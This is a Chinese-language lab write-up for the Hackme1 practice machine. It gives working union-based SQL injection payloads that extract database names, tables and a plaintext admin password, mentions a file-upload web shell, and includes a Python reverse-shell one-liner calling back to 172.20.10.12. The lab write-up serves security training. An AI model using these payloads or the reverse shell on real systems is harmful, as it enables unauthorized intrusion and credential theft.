

# Hackme1

## 初步信息收集


### 扫ip

```
arp-scan -l#懒得nmap这个省事
```

### 端口扫描

发现存在两个端口分别是ssh与web服务


## web目录扫描

发现是一些常规功能


同时发现由于配置原因导致可直接看目录下文件，暂时没用放一边


## 登录后SQL注入获取admin

发现存在注入


查询存在哪些数据库

```sql
search=0' union select 1,(select group_concat(schema_name) from information_schema.schemata),3#
得到如下，最后一个比较可疑
information_schema,mysql,performance_schema,sys,webapphacking
```

查询表名

```sql
search=0' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='webapphacking'),3#
```

查询users列名

```sql
search=0' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3#
```

发现superadmin

```sql
search=0' union select 1,(select group_concat(user) from users),3%23
```

查询密码

```sql
search=0' union select 1,(select group_concat(pasword) from users where user='superadmin'),3%23
```

获取明文密码`Uncrackable`


## admin后管文件上传漏洞




存在任意文件上传，上号Antsword


## 反弹shell

为了方便搞个ttyshell

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("172.20.10.12",1236));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```


## 提权

在用户目录legacy下发现touchmenot文件


执行即可获得root权限，有点呆只觉得


